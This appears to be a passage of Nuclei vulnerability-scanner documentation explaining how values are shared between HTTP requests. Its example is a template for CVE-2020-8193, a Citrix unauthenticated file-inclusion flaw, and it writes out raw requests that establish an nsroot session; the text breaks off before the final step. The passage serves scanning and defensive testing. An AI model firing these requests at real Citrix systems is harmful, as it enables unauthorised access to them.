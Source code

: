 ```yaml
      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

        testing=parameter

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

# **Value Sharing**

Learn about sharing values between HTTP requests in the HTTP template.

## **HTTP Value Sharing**

In Nuclei, It is possible to extract value from one HTTP request and share/reuse it in another HTTP request. This has various use-cases like login, CSRF tokens and other complex.

This concept of value sharing is possible using [**Dynamic Extractors**](https://docs.projectdiscovery.io/templates/reference/extractors#dynamic-extractor). Here’s a simple example demonstrating value sharing between HTTP requests.

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
```